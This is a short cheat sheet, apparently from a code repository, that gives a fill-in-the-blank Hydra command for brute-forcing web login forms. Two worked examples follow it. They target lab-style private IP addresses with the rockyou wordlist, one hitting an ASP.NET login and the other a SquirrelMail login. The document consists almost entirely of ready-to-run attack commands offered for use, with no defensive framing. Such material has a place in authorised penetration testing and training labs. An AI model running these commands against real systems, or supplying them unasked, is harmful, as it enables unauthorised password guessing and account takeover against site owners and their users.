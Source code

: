# Hydra - Brute Force Web Form

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

### Reliably bruteforce webpage logins with this command:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[REQUEST-PAYLOAD]:[LOGIN-FAIL-TEXT]"
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
Another Example:
```
hydra -l Kyser -P wordlist.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’
```
